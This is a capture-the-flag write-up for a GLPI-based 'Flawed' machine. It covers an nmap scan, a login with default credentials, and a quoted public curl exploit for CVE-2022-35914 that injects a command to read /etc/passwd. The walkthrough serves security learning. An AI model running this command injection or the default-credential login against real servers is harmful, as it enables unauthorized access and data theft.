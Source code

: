 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/blob/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/blob/main/flawed/images/glpi-default-creds.png "a title")

We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/blob/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/blob/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

```curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```
